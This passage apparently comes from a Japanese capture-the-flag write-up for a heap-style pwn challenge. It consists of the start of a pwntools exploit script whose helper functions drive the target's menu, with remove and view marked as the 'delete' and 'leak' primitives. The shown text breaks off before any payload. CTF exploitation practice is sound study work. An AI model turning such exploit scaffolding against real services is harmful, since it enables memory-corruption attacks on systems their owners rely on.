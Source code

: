 2.29用のデバッグシンボル付きlibc用意するのが面倒だったので2.31で解いてます

```python
from pwn import p64, u64, ELF, process, remote
from xlog import XLog


logger = XLog("EXPLOIT")


# you need filling this variables
PROMPT_CHAR = "Choice >> "

def select(s, sel, c=PROMPT_CHAR):
    if sel is None or c is None:
        logger.warning("please fill above variables")
        exit(-1)
    s.recvuntil(c)
    s.sendline(str(sel))


def create_house(s, name, size, desc):
    select(s, 1)
    s.recvuntil(" : ")
    s.sendline(name)
    s.recvuntil(" : ")
    s.sendline(str(size))
    s.recvuntil(" : ")
    s.sendline(desc)


def create_person(s, name, size, detail):
    select(s, 2)
    s.recvuntil(" : ")
    s.sendline(name)
    s.recvuntil(" : ")
    s.sendline(str(size))
    s.recvuntil(" : ")
    s.sendline(detail)


def add_person(s, person_idx, house_idx):
    select(s, 3)
    s.recvuntil(" : ")
    s.sendline(str(person_idx))
    s.recvuntil(" : ")
    s.sendline(str(house_idx))


# delete
def remove_person(s, house_idx, person_idx):
    select(s, 4)
    s.recvuntil(" : ")
    s.sendline(str(house_idx))
    s.recvuntil(" : ")
    s.sendline(str(person_idx))


# leak
def view_house(s, house_idx):
    select(s, 5)
    s.recvuntil(" : ")
    s.sendline(str(house_idx))
    s.recvuntil("with details  ")
```